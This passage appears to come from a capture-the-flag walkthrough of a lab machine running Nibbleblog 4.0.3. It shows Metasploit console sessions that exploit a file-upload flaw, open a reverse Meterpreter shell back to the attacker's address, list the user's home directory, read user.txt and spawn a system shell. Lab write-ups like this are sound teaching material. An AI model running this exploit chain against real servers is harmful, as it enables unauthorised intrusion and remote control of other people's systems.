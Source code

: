 ```console
   0   Nibbleblog 4.0.3


msf exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.15.47
lhost => 10.10.15.47

```
 
Now let's run the exploit

```console
msf exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.15.47:4444 
[*] Sending stage (37775 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.15.47:4444 -> 10.10.10.75:59252) at 2018-06-06 18:49:32 +0530
[+] Deleted image.php

meterpreter > 

```
So now we got the meterpreter session and we are the user

```console
meterpreter > cd nibbler
meterpreter > ls
Listing: /home/nibbler
======================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100600/rw-------  0      fil   2017-12-29 16:00:07 +0530  .bash_history
40755/rwxr-xr-x   4096   dir   2018-06-06 18:53:00 +0530  .git
40775/rwxrwxr-x   4096   dir   2017-12-11 08:34:04 +0530  .nano
100644/rw-r--r--  1363   fil   2018-06-06 18:51:34 +0530  README.md
100755/rwxr-xr-x  14392  fil   2018-06-06 18:47:25 +0530  dc
100644/rw-r--r--  4963   fil   2018-06-06 18:46:47 +0530  dc.c
40755/rwxr-xr-x   4096   dir   2018-06-06 18:51:38 +0530  doc
40755/rwxr-xr-x   4096   dir   2018-06-06 18:51:52 +0530  lib
40755/rwxr-xr-x   4096   dir   2018-06-06 18:48:29 +0530  personal
100400/r--------  1855   fil   2017-12-29 16:24:29 +0530  personal.zip
40755/rwxr-xr-x   4096   dir   2018-06-06 18:51:40 +0530  tools
100644/rw-r--r--  3404   fil   2018-06-06 18:51:39 +0530  upc.sh
100400/r--------  33     fil   2017-12-29 16:13:54 +0530  user.txt

meterpreter > cat user.txt

```
So we got the "__user.txt__"


Got a limited shell inside the meterpreter session
```console
meterpreter > shell
Process 122906 created.
Channel 0 created.
ls
README.md
dc
dc.c
doc
files_cache.2177
lib
personal
personal.zip
```
